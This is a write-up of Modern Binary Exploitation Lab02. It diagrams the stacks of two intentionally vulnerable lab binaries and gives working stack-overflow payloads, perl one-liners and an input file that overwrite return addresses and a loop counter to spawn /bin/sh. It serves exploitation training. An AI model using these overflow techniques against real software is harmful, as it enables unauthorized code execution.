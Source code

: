 ```yaml
---
title: "Modern Binary Exploitation Lab02 write-up"
author: A1phaZer0
layout: post
category: HackING
---
```

**LAB2B:**
```bash
+===============+
|_____argv______|
|_____argc______|
|_____ret_______|
|____oldebp_____|<- ebp_main
|               |
|               |
|_______________|(pointer to '/bin/sh')
|__p_to_string__|
|_____ret_______|
|___ebp_main____|<- ebp_print_name
|               |
|               |
|_______________|
|__p_to_string__|
|_____dest______|(ebp_print_name-0x17)
```
<!--more-->
Now, it's clear, we just need 0x17 bytes to override until `ebp_print_name`, then 4 bytes to override `ebp_print_name`, then 4 bytes to override `ret`, we can redirect `ret` to function `shell`.  
After returning from `print_name`, `esp` will point to `p_to_string`, since function `shell` use `ebp-0x8` as argument, so we need put pointer to '/bin/sh' into somewhere 4 bytes after `p_to_string`.
```bash
$ ./lab2B $( perl -e 'print "A"x27 . "\xbd\x86\x04\x08" . "\xd0\x87\x04\x08"x2' )
```
**LAB2A:**
```bash
+===============+
|______ret______|
|____old_ebp____|<- ebp_c
|               |
|               |
|_______________|<- ebp_c - 0x14
|_ebp_c_-_0x14__|<- ebp_c - 0x18
|_______i_______|
|               |
|               |
|               |
|_______________|<- ebp_c - 0x28
|_______________|
|_______________|
|_____0x10______|<- 'size' argument in fgets(), means 15 chars at most.
|_ebp_c_-_0x28__|
```
`i` is a counter, starts from `0x0` to `0x9`, everytime fgets() reads a string to `ebp_c - 0x28`, `i` increases by 1, then one character is taken to `ebp_c - 0x14`.  
Since there are 12 bytes between `ebp_c - 0x28` and i, but fgets() can at most read 15 characters, so we can override i, by that `ret` will also be modified.
```bash
$ for i in $( seq 1 24 ); do perl -e 'print "a" x 12 . "\x0a"'; done > /tmp/abc
$ perl -e 'print "\xfd" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x86" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x04" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x08" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "a" x 11 . "\x0a"' >> /tmp/abc
$ for i in $( seq 1 10 ); do perl -e 'print "a" x 10 . "\x0a"'; done >> /tmp/abc
$ { cat /tmp/abc; echo "whoami"; } | ./lab2A
```
**NOTICE:**
+ `\x0a` also is `\n`.  
+ In both cases, we expect to run `system('/bin/sh')`, but there're tiny differences between LAB2B and LAB2A.  
  In LAB2B you will finally get an interactive shell, because new shell will inherit standard input as it's input.  
  In LAB2A new shell is connected to a pipe(buffer), when left command-list finished there will be an `EOF` and pipe will be closed so does the new shell. So we need to override `i` back to 0(NULL, fgets() can do it), to make sure fgets() read enough data and finish properly, in the end `whoami` will not be swallowed but redirected to the new shell.